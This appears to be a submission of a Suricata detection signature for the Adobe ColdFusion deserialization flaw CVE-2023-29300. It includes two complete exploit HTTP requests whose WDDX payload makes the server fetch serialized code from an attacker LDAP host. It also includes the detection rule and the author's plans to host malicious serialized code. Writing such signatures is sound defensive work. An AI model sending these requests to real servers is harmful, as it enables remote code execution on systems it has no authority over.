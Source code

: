# ET Open Submission (Return from PCRE grave)
### May 2nd, 2024
### Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)

### The exploit itself:

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

I was however able to get the LDAP calls to fire on much less.

```
POST /CFIDE/adminapi/accessmanager.cfc?method=ANYTHINGHERE HTTP/1.1
Host: localhost
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 387
Content-Type: application/x-www-form-urlencoded

argumentCollection=%3CwddxPacket%20version%3D%271.0%27%3E%3Cheader%2F%3E%3Cdata%3E%3Cstruct%20type%3D%27xcom.sun.rowset.JdbcRowSetImplx%27%3E%3Cvar%20name%3D%27dataSourceName%27%3E%3Cstring%3Eldap%3A%2F%2F192.168.1.144%2Ftest.ser%3C%2Fstring%3E%3C%2Fvar%3E%3Cvar%20name%3D%27autoCommit%27%3E%3Cboolean%20value%3D%27true%27%2F%3E%3C%2Fvar%3E%3C%2Fstruct%3E%3C%2Fdata%3E%3C%2FwddxPacket%3E
```

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:established,to_server; http.method; content:"POST"; bsize:4; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method="; startswith; fast_pattern; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; distance:3; within:500; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_02, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_02;)```


[Job Zip](https://github.com/eatinsundip/Suricata/files/15189851/9dfa93c65d3bbd7d.zip)

[https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d](https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d)


## NOTES
- I am a little rusty and very open to critique
- I plan to get a working LDAP server to host malicious serialized code.
	- I have never attempted RCE with an LDAP server so it's a learning experience.
 - With this being written in Suri5, I am missing a url_decode ont eh http.request_body
